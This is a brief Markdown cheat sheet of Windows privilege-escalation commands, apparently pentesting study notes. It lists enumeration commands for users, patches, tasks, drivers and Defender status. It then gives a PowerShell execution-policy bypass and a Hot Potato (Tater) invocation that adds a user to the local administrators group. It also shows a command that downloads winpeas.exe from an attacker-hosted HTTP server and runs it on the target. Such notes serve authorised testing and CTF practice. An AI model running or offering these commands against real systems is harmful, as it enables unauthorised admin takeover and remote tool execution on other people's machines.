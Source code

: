 ### Information Gathering
User Enumeration
- `whoami /priv` Current user privileges
- `net users` List users
- `net user $username` Detail of a specific user
- `qwinsta` Other users logged in

<!-- -->
Systeminfo
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` get OS version

<!-- -->
 Patch level
 - `wmic qfe get Caption,Description,HotFixID,InstalledOn` list updates on system

<!-- -->
 Scheduled Tasks
 - `schtasks /query /fo LIST /v` query scheduled tasks

<!-- -->
Drivers
- `driverquery` list drivers installed

<!-- -->
Antivirus
- `sc query windefend` is windows Defender on?

### Hot Potato
cmd:
- `powershell.exe -nop -ep bypass`
<!-- -->

Powershell
- `Import-Module  C:\Users\User\Desktop\Tools\Tater\Tater.ps1`
- `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`

### Winpeas.exe
Local:
- `python -m SimpleHTTPServer 80`

<!-- -->
Remote: 
- `powershell.exe -command IWR -Uri $IP/winpeas.exe -OutFile winpeas.exe"`
- `winpeas.exe`
 <!-- -->
 
 [Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)